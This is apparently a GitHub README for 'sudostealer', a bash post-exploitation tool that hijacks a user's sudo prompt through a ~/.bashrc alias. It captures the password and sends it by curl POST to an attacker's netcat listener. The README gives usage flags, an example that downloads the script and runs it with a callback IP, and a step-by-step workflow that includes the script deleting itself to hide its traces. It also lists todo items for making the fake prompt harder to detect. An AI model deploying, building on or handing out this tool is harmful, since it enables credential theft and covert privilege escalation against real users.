


# sudostealer

A bash script to steal the `sudo` password of a user when you have a shell (as that user), but no password.

---

__Usage:__

```bash
Usage: ./sudostealer.sh
	[-m method]      	alias, path, binary
	[-d droppath]    	path to drop script. must be writable
	[-p port]        	choose port. always HTTP traffic
	lhost            	host to callback to
```

__Example__:

```
wget https://raw.githubusercontent.com/543hn/sudostealer/master/sudostealer.sh
chmod +x ./sudostealer.sh
./sudostealer.sh 10.10.10.10 -p 80
```

__Requirements__ on `RHOST`:

- `bash`, `sed`, `curl`
- A shell that reads `~/.bashrc`

__Requirements__ on `LHOST`:

- A `netcat` listener on port `80` (or whatever port set with `-p`)

__Screenshots__:

Generating/dropping:



Getting a callback:



```
This idea was given to me by rewzilla (github.com/rewzilla)
```

---

__How does it work?__

1. Attacker gains shell access.
2. Run this script (with any options) on the `RHOST`, then delete it.
3. Set up a `nc` listener on `LHOST` on `80` or whichever port you set.
   1. Script inserts `sudo` alias into `~/.bashrc` to be run the next time a terminal opens.
   2. Upon running, script fakes `sudo` prompts.
      1. If incorrect password, continue.
      2. If correct password, break.
4. Wait for user to open a new terminal and types `sudo`.
5. Get sent creds through `POST` data with `curl`.
6. Script deletes itself, removes alias, `exec bash`es.

---

If anyone wants to _Hacktober_ some stuff, __todo__:

- Handle method input, create new methods for dropping (see comments in script)
- Sanitize/verify CLI input (`getopts`)
- Don't add 50 `alias`es if the script is run multiple times
- Fix sudo prompt realness (don't allow `CTRL-c` to kill `sleep`-- `trap` doesn't catch it)
  - Pressing enter on a blank password, then immediately CTRL-c shouldn't exit
- Find a way to force re-sourcing `~/.bashrc` so you don't have to wait for a new terminal
